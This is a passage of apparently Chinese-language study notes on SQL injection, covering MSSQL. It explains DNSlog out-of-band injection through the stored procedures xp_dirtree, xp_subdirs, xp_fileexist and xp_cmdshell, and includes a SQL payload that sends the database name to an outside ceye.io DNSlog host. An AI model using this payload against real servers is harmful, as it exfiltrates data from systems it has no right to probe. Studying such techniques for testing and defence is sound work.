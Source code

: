 ![img](.\SQL注入原理.assets\197DNS.png)

## MSSQL

参考文章：

[第25天：WEB攻防-通用漏洞&SQL读写注入&MYSQL&MSSQL&PostgreSQL - 解放者-cracer - 博客园](https://www.cnblogs.com/haorancracker/articles/17695943.html)

与postgresql sql注入类似

##### Dnslog注入

`MSSQL` 下，可以利用自带的存储过程或创建自定义的存储过程，向外发送网络请求。并利用`DNSlog` 接收外传的数据。常用的函数有：

- `xp_subdirs`
- `xp_dirtree`
- `xp_fileexist`
- `xp_cmdshell`

前三个存储过程的效果和使用方法几乎一致。

```sql
declare @a varchar(1024);
set @a=db_name();
exec('master..xp_dirtree "//' %2B @a %2B '.o0k708.ceye.io/123"')
```

`xp_cmdshell` 要求必须为 `DBA` 权限下才可使用。
